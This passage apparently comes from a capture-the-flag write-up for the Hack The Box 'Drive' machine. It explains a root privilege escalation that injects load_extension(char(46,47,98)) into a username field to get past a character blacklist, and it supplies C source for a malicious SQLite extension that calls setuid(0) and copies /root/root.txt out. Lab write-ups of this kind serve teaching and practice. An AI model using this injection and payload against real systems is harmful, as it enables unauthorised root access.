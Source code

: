 ```c
      }
    }
    if (!bVar1) {
      *(undefined *)(local_3c + username) = *(undefined *)(local_38 + username);
      local_3c = local_3c + 1; // do something? idk
    }
    local_38 = local_38 + 1; //no idea either?
  } while( true );
}
```

so with this link
https://stackoverflow.com/questions/12424883/is-it-possible-to-test-if-loading-extensions-is-enabled-in-sqlite-3
we see that the load_extension is enabled
![image](/assets/htb-drive/Pasted_image_20231202055037.png)

Now the whole idea of the exploit is to load a malicious module, which could be anything like reading root.txt or setting SUID on /bin/bash, so we create a malicious `C file` to `cat root.txt`

its also important to note that the load_extension takes in shared library files, now if we look at the documentation of sqlite https://www.sqlite.org/loadext.html,
![Alt text](/assets/htb-drive/image.png)

reading further down we also see them mentioning the naming convetion of load_extension
![image](/assets/htb-drive/Pasted_image_20231202061632.png)
armed with this information and sanitize_string check we need to do the following

- Dont overrun the username input limit (48 characters)
  ![image](/assets/htb-drive/Pasted_image_20231202061820.png)
- name our extension like `sqlite3_[ONE LETTER]_init`
- substitute for blacklisted characers (use decimal to substitute for `.` from ascii table)
- escape the query
- the effective query becomes

```bash
"/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line \'UPDATE accounts_customuser SE T is_active=1 WHERE username=\"\""+load_extension(char(46,47,98))+"\'"
```

## steps

1. create a c file

```c
#include <unistd.h>
#include<stdlib.h>
void sqlite3_b_init() {
        setuid(0);
        setgid(0);
        system("/usr/bin/cat /root/root.txt > /tmp/guys.txt");
}
```
